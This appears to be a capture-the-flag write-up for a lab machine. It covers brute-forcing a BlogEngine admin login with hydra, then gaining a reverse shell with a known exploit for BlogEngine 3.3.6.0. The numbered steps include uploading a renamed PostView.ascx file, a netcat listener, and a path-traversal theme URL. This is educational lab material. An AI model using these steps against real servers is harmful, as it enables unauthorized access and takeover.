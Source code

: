 ![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632577092768/oTJoyxzaA.png)

The options tab in the home page we visited earlier had a login option, 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632577162449/_oEkcO8Ai.png)
Let's check it out 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632577240563/DHfSghYs2.png)
#### Hydra 
_____________________________________________

I tried all default usernames and passwords but nothing worked,so I decided to bruteforce the login form using **hydra**


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632577327616/rnhg3xQxl.png)

And it worked, now we have a username and password .Let's log in !

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632577649505/ymyOTawPM.png)

## Foothold -
____________________________________
The **About** section tells us the version of the `BlogEngine` being used here is `3.3.6.0`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632589633280/l69fE2UQt.png)

Looking for exploits for this particular version in searchsploit reveals this,

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632577792556/o0Od4tB2-.png)

There are 3 RCE exploits , lets try the first one. Before that we'll mirror the exploit and examine it - `searchsploit -m aspx/webapps/46353.cs `

The exploit tells us the steps we need to do inorder to gain a reverse shell back to our machine.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632578000079/iZPy6iGO5.png)

Here's what we need to do
```zsh
1.Rename the exploit as "PostView.ascx"
2.Change the IP and port in the exploit .
3.Log in to the application as admin.
4.Click Contents->Posts->Welcome to Hackpark title->File Manager
5.Click on UPLOAD
Upload the PostView.ascx and save it
6.Setup nc listener and visit http://<ip>/?theme=../../App_Data/files
7.The web page keeps on loading which means you've got a rev-shell back !
``` 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632578661936/vR_ukso02.png)
